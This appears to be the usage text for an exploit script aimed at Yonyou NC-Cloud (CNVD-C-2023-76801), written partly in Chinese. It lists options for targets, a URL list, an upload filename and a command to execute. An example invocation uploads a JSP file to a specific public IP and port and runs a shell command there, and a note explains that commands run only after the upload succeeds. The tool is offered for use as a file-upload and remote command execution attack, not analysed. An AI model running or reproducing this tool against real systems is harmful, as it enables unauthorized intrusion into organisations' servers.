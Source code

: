 用友-NC-cloud exp(CNVD-C-2023-76801) by 我只是好色  
options:  

  命令|一一一|描述
  -----|-----|-----
  -h, |--help         |show this help message and exit  
  -u  |TARGETURL      |Set target url  
  -r  |TARGETURLLIST  |Set url list file  
  -fn |FILENAME       |Set upload filename  
  -c  |COMMAND        |Set execute command  
    
  -Eg:  
  -c 执行命令 
  CNVD-C-2023-76801.py -u http://159.138.102.65:9099  -fn 456789.jsp -c pwd  
  上传成功后才能执行命令且需要指定上传的文件名
